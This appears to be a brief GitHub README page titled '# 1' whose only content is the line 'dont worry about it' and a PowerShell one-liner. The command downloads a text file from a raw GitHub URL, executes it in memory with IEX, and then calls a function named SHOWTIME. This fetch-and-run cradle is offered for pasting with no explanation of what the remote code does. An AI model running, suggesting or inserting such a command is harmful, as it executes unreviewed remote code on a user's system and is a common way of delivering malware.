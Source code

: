 # 1
dont worry about it

```
IEX((New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/aftoncodes/1/1.txt'));SHOWTIME
```
